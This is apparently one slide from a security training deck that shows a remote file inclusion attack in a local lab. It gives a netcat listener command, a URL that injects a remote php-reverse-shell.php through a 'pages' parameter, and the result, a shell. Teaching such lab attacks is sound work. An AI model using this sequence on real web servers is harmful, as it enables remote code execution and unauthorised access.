

# Rfi & Reverse shell
New terminal
$ nc –nltp 1234
Back to browser
http://127.0.0.1:42001/vulnerabilities/fi/?pages=http://127.0.0.1:9000/php-reverse-shell.php

Back to another nc terminal
We get a shell